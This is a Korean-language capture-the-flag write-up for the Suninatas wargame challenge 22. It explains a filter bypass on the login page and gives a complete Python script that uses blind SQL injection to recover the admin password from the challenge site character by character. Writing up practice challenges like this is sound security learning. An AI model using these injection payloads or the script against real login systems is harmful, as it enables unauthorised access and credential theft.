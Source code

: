 ```yaml
---
title: "Suninatas 22 Write up"
categories: SQLi
tags: [blindSQLi, wargame, sunitas]
---
```


Suninatas 22 Write-Up
---------------------

## 문제 분석

문제에 접속하면 아래와 같은 로그인 창과 필터링 되는 단어들을 확인할 수 있었습니다.
필터링 내용들을 살펴보면 여태까지 봤던 문제 중 가장 많은 것을 볼 수 있었습니다.

![Suninatas_22_Main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_main.png?raw=true)

문제의 풀이 조건에 대해 알 필요가 있으므로 먼저 개발자 도구를 통해 소스코드를 확인한 결과
 주석에 admin 계정으로 로그인하라는 조건이 있는 것을 찾을 수 있었습니다.

![Suninatas_22_source](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_source.png?raw=true)

따라서 이 문제의 flag는 admin 계정의 password 혹은 로그인 할 경우 얻을 수 있는 것으로 짐작할 수 있었습니다.

또한 테스트하기 위한 계정으로 guest/guest 계정이 있다고 하여 해당 계정을 이용하여 로그인 해보았습니다.

![Suninatas_22_guest](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/sunintas_22_guest.png)

사진을 보면 알 수 있듯이 OK guest라는 문구가 출력되는 것을 알 수 있었고 로그인에 성공할 경우 OK 라고 뜨는 것을 단서로 하여 blind SQL Injection을 
시도하였습니다.

* * *

## Qeury Statement 작성

SQL Injection에 주로 사용되는 keyword들이 대거 필터링 되었기에 쉽게 풀이에 접근하지 못하였습니다.
제시되어 있는 키워드 이외에도 '(Single Quote), substring과 같은 keyword도 입력하려고 할 경우 no hack이라고 출력되었기에
 해결 방법을 찾지 못하였습니다. 

Null byte 삽입과 같은 방법으로 필터링을 우회할 수 있는 몇 가지 방법을 찾기도 하였으나 이를 공격으로 연계하지를 못하였습니다.
 다른 Write-Up을 찾아본 결과 생각보다 간단한 방법으로 풀이하였는데 한 가지 이해가 되지 않은 부분은 직접 GET 형식에 맞춰 작성한 것과
 id, pw 입력란에 입력한 내용이 필터링 대상이 다른 것이었습니다. 대표적으로 id, pw란에서는 white space가 필터링 대상이었는데 GET 형식으로 
직접 url란에 입력한 경우 white space가 필터링 되지 않았기 때문입니다.

* * *

어찌되었든 해결 방법에 대해서는 알았으므로 자동화 코드의 경우 직접 작성해보았습니다. password의 길이를 알아내는 부분에서 최대 길이를 15로 잡은 것은
 html code 내에서 pw 입력란을 최대 15자로 제한하였기 때문입니다. 코드의 경우 아래와 같이 작성했습니다.

``` python
#!/usr/bin/python

import requests as req

cookies = {"ASP.NET_SessionId":"sbd2hldgbghcshskmhnubw2g", "ASPSESSIONIDSADBSAQD":"ONINCAKAHJGGDDMKBANMGNNP"}
url = "http://suninatas.com/challenge/web22/web22.asp"
maxpass = 15
length = 0
password = ""
parameter = {"pw":"haha"}

for i in range(maxpass):
    parameter['id']="admin' and len(pw)={}-- ".format(i+1)
    response = req.get(url, cookies=cookies, params=parameter)

    if response.text.find("OK") != -1:
        length = i+1
        print("Password length is {}".format(length))

for i in range(1, length+1):
    for j in range(32, 128):
        parameter['id'] = "admin' and substring(pw, {0}, 1)='{1}'--".format(i, chr(j))
        response = req.get(url, cookies=cookies, params=parameter)
        if response.text.find("OK") != -1:
            password += chr(j)

print("admin's password is " + password)
```

session의 경우 자신의 환경에 맞게 변경하여 사용하면 됩니다. 코드를 작성할 때 제대로 값이 출력되지 않아서 잘못 작성한 줄 알았었는데, 
문자를 비교하는 과정에서 이를 ' '로 묶어주지 않아서 숫자 값만 제대로 비교하고 문자 값의 경우 제대로 비교하지 못했던 오류가 있었습니다.
